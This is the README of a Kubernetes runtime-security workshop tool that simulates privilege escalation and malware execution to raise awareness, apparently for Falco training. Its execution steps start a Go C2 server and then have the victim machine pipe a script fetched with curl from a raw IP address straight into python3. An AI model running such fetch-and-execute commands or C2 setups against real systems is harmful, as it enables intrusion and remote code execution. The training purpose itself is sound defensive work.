 # k8s-runtime-sec


CLI for simulating malicious behaviors in Kubernetes clusters Includes two security incident scenarios related to privilege escalation and malware execution, designed to raise awareness about runtime security.


## Requirements

Golang 1.21 or newer and Python 3.7 or later are required.


## Installation


**In Kubernetes node**

    kubectl apply -f k8s/victim-workshop.yaml

**In Containers**

    docker run -it --name falco-workshop -h training diegoall1990/falco-workshop:tagname (Cooming soon)


## Execution


* In C2 Server (Google Compute Engine) execute:

        go run main.go



* In victim machine execute:


        curl -sL http://34.27.180.215:8080/sitio/vuelta.txt | python3


> pipe execution
